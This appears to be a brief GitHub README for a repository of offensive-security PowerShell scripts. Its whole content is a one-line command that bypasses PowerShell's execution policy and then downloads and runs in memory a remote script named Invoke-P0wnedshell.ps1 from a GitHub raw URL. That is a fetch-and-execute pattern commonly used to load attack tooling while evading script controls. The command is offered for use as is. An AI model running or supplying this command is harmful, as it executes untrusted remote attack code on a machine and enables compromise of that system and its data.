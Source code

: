 # OFFSEC-PowerShell
My Favorite Offensive Security Scripts

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/OFFSEC-PowerShell/main/Invoke-P0wnedshell.ps1'))

